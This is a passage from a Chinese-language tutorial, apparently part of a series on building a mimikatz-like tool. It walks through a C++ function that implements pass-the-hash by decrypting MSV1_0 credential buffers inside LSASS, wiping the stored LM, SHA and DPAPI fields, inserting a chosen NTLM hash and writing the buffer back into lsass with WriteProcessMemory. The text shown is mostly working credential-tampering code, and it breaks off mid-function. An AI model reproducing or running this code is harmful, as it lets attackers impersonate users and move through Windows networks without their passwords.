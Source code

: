 ```c++
```

其与 ”MSV“ 节中稍有不同的是，经过几次 `ReadProcessMemory()` 调用后，将获取到主要凭据，并将其传入自定义函数 `Msv1_0CredsPth()`。其中 `pOriginBufferAddress` 变量保存了加密凭据的原始地址。

## 2.3 覆盖用户原始凭据

编写  `Msv1_0CredsPth()` 函数，如下所示。

```c++
BOOL Msv1_0CredsPth(PMSV1_0_PRIMARY_CREDENTIALS pCredentials, PVOID pOriginBufferAddress, PMSV1_0_PTH_DATA_CRED pthDataCred)
{
	BOOL status = FALSE;
	PBYTE msvCredentials;
	const MSV1_0_PRIMARY_HELPER* pMSVHelper;

	if (cLsass.osContext.BuildNumber < WIN_BUILD_10_1507)
		pMSVHelper = &MSV1_0_PrimaryHelper[0];
	else if (cLsass.osContext.BuildNumber < WIN_BUILD_10_1511)
		pMSVHelper = &MSV1_0_PrimaryHelper[1];
	else if (cLsass.osContext.BuildNumber < WIN_BUILD_10_1607)
		pMSVHelper = &MSV1_0_PrimaryHelper[2];
	else
		pMSVHelper = &MSV1_0_PrimaryHelper[3];
	
	if (msvCredentials = (PBYTE)pCredentials->Credentials.Buffer)
	{
		if (LsaUnprotectMemory(msvCredentials, pCredentials->Credentials.Length))
		{
			*(PBOOLEAN)(msvCredentials + pMSVHelper->offsetToisLmOwfPassword) = FALSE;
			*(PBOOLEAN)(msvCredentials + pMSVHelper->offsetToisShaOwPassword) = FALSE;

			if(pMSVHelper->offsetToisIso)
				*(PBOOLEAN)(msvCredentials + pMSVHelper->offsetToisIso) = FALSE;

			if (pMSVHelper->offsetToisDPAPIProtected)
			{
				*(PBOOLEAN)(msvCredentials + pMSVHelper->offsetToisDPAPIProtected) = FALSE;
				RtlZeroMemory(msvCredentials + pMSVHelper->offsetToDPAPIProtected, LM_NTLM_HASH_LENGTH);
			}

			RtlZeroMemory(msvCredentials + pMSVHelper->offsetToLmOwfPassword, LM_NTLM_HASH_LENGTH);
			RtlZeroMemory(msvCredentials + pMSVHelper->offsetToShaOwPassword, SHA_DIGEST_LENGTH);

			if (pthDataCred->pPthData->NtlmHash)
			{
				*(PBOOLEAN)(msvCredentials + pMSVHelper->offsetToisNtOwfPassword) = TRUE;
				RtlCopyMemory(msvCredentials + pMSVHelper->offsetToNtOwfPassword, pthDataCred->pPthData->NtlmHash, LM_NTLM_HASH_LENGTH);
			}
			else
			{
				*(PBOOLEAN)(msvCredentials + pMSVHelper->offsetToisNtOwfPassword) = FALSE;
				RtlZeroMemory(msvCredentials + pMSVHelper->offsetToNtOwfPassword, LM_NTLM_HASH_LENGTH);
			}
			
			if (LsaProtectMemory(msvCredentials, pCredentials->Credentials.Length))
			{
				wprintf(L"data copy @ %p\n", pOriginBufferAddress);
				if(pthDataCred->pPthData->isReplaceOk = WriteProcessMemory(cLsass.hProcess, pOriginBufferAddress, msvCredentials, pCredentials->Credentials.Length, NULL))
```